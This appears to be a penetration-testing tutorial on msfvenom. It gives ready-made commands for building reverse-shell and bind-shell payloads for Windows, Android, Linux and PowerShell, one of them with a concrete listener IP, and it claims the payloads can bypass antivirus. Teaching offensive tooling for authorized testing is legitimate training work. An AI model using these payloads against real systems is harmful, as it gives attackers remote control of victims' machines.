


:orphan:
(a-gentle-introduction-to-msfvenom)=
# A Gentle Introduction to MSFVenom
 
Msfvenom is a combination of Msfpayload and Msfencode, combining both tools into a single Framework instance. These tools are used to generate various payload types and encode them in various encoder modules. The msfvenom tool combines the capabilities of msfpayload and msfencode into a single tool. The use of msfpayload and msfencode had a lot of parameters, and users had problems remembering them. The problematic aspect was jumping from one tool to another tool so the   Metasploit developers decided to create and release the Msfvenom tool. After merging these tools together, msfvenom works faster and can handle all possible formats, and bring some sanity to payload generation. 

*Note: To run the MSFvenom, this article assumes that Kali Linux is installed and the network settings have been made.*

A payload is a piece of code that a hacker executes when they exploit a vulnerability. It is often made up of a few commands that will run on the target operating system to steal data and perform other malicious activities.

*There are mainly two types of Payloads.*
**Staged**: Staged payloads deliver a small stager to the victim, which then connects to the attacker and downloads the remaining payload. As a result, staged payloads require the use of special payload listeners, such as `multi/handler` in Metasploit.  These types of payloads are ideal when there is limited shellcode space. 
Staged payloads are denoted with the use of forward slash. For example, `windows/meterpreter/reverse_tcp `

**Stageless payloads** provide the full payload to the target at once, eliminating the need for the attacker to provide more data. That means we can utilize a variety of listeners, such as Netcat. Stageless payloads are denoted with the use of an underscore `_` for example, `windows/shell_reverse_tcp.` 

## MSFvenom 

Open up the Kali Linux terminal and type the command msfvenom. The command displays all the available options for creating a payload. 
`Msfvenom `


Syntax 
```
msfvenom -p [Payload_list]  lhost=[Listening_Ip_address] lport=[Listener port] -f [filtetype] > [output_filename] 

lhost = Listening IP, the IP address of the attacker machine for which the victim machine has to connect back with the reverse shell. 
lport = the Listening Port, the port to which the attacker machine will try to connect to. 
-p : this option is used to select the payload to be by msfvenom 
-f : the file format to be saved. 
```
To list all the payloads msfvenom offers, the following command can be used. 
`msfvenom -l payloads `


## Bind shell 

A bind shell is one that creates a new service on the target machine and requires the adversary to connect to it in order to gain access to the system. 

`msfvenom -p windows/meterpreter/bind_tcp lhost=<listener_IP> lport=<listener_port>  -f exe  -o reverse.exe`



The shell is will be saved with the .exe extension in the `/home/kali/Documents/payloads` folder. Note this payload is a staged payload. 

## Reverse TCP payload  

A reverse shell is one where attackers listen for the connection from the target machine. The target machine acts as a client connecting to that listener. 
The following command can be used to generate a reverse shell.
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<listener_IP> lport=<listener_port> -f exe > ~/Documents/payloads/reverse_tcp.exe`


Check out this blog to know more about Reverse shells [Click here](perform-remote-code-execution-with-the-use-of-reverse-shells)

## HTTPS shell

When the victim's system blocks all unneeded ports, we can generate payloads based on the running service on the machine, such as `443` for `HTTPS`. 
Type the following command to create an HTTPS payload. 
`msfvenom -p windows/meterpreter/reverse_https lhost=<listener_IP> lport=<listener_port> -f exe > ~/Documents/payloads/443.exe`


## Android shell

Using the msfvenom tool we can even create an android shell. The following command can be used for the android shell. 
`msfvenom -p android/meterpreter/reverse_tcp  lhost=<listener_IP> lport=<listener_port> > ~/Documents/payloads/file.apk`


`Note: the file extension will be a .apk file. `

## Linux reverse shell 

Open up the terminal and copy the following command to create a Linux reverse shell. 

`msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<listener_IP> lport=<listener_port>  -f elf > ~/Documents/payloads/shell`


## Powershell payload

With the help of the msfvenom .bat extension, the PowerShell reverse shell payload can be created. The following command can be used to create. 

`msfvenom -p cmd/windows/reverse_powershell lhost=192.168.230.128 lport=4447 > ~/Documents/payloads/shell.bat`



## Conclusion: 

This article demonstrated how to create different types of payloads using the msfvenom tool. With the MSFvenom one can create a very powerful payload that can bypass the Antivirus. To learn more about msfvenom techniques, read the manual page of msfvenom or check the following link `https://www.offensive-security.com/metasploit-unleashed/msfvenom/ `

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**